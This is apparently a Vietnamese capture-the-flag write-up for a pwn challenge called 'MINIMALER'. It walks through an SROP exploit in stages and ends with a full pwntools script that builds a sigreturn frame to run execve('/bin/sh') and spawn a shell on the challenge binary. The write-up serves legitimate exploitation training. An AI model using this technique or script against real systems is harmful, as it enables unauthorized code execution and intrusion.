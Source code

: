 # MINIMALER
- Được hướng dẫn bởi a Phú
## Khai thác
### Lần nhập 1
- Bài này SROP và hơi lạ một xíu và cần debug kĩ
- Đầu tiên ta sẽ loop hàm main
```python
payload=b"A"*8
payload+=flat(
    0x404020+8,
    0x401142,
)
p.sendline(payload)
```
- `0x404020+8` đây là ow rbp, lí do ta sẽ ghi vào vùng có quyền `read-write` để khi loop hàm main 
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/4a8042db-3511-4811-9ea9-17ee76566d8c)

### Lần nhập 2
```python
frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=0x404000
frame.rsi=0
frame.rdx=0
frame.rip=exe.plt['syscall']
frame.rsp=exe.plt['syscall']
payload=flat(
    exe.plt['syscall'],0x404008,
    0x401142,
    bytes(frame)[0x10::]
)
input("ENTER TO SEND PAYLOAD 2")
p.send(payload)
```
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/779e786b-ba79-49a7-935a-d24d9569595a)
- Ta sẽ ghi frame vào `0x4040420`

### Lần nhập 3
```python
payload=flat(
    b"/bin/sh\x00",
    0x404a00+8,
    ret,
    b"\x3b"
)
input("enter to send syscall")
p.send(payload)
```
- Set up các thanh ghi (do là nó bị dời một xíu nên lần 2 bỏ 0x10 byte đầu)

## Lần nhập 4
```python
input('send 0xf bytes')
sh=b"/bin/sh\x00"
sh=sh.ljust(0xf,b"A")
p.send(sh)
```
## Script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('a_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+49

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)
base = 0x0000000000404500
GDB()
ret=0x000000000040101a
rw_section=0x404a00
payload=b"A"*8
payload+=flat(
    0x404020+8,
    0x401142,
)
p.sendline(payload)

frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=0x404000
frame.rsi=0
frame.rdx=0
frame.rip=exe.plt['syscall']
frame.rsp=exe.plt['syscall']
payload=flat(
    exe.plt['syscall'],0x404008,
    0x401142,
    bytes(frame)[0x10::]
)
input("ENTER TO SEND PAYLOAD 2")
p.send(payload)

payload=flat(
    b"/bin/sh\x00",    # 0x404000
    0x404a00+8,
    ret,
    b"\x3b"
)
input("enter to send syscall")
p.send(payload)
input('send 0xf bytes')
sh=b"/bin/sh\x00"
sh=sh.ljust(0xf,b"A")
p.send(sh)

p.interactive()
p.interactive()
```
